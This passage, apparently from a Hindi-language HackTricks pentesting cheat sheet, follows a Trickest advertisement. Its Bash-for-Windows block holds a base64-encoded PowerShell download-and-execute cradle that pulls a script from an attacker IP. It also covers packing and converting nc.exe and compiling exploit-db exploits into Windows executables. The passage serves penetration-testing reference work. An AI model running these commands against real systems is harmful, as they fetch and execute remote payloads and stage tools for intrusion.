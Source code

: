 <figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
[**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) का उपयोग करें ताकि आप दुनिया के **सबसे उन्नत** सामुदायिक उपकरणों द्वारा संचालित **कार्यप्रवाहों** को आसानी से बना और **स्वचालित** कर सकें।\
आज ही एक्सेस प्राप्त करें:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

## Windows के लिए Bash
```bash
#Base64 for Windows
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/9002.ps1')" | iconv --to-code UTF-16LE | base64 -w0

#Exe compression
upx -9 nc.exe

#Exe2bat
wine exe2bat.exe nc.exe nc.txt

#Compile Windows python exploit to exe
pip install pyinstaller
wget -O exploit.py http://www.exploit-db.com/download/31853
python pyinstaller.py --onefile exploit.py

#Compile for windows
#sudo apt-get install gcc-mingw-w64-i686
i686-mingw32msvc-gcc -o executable useradd.c
```
## Greps
```bash
#Extract emails from file
grep -E -o "\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,6}\b" file.txt

#Extract valid IP addresses
```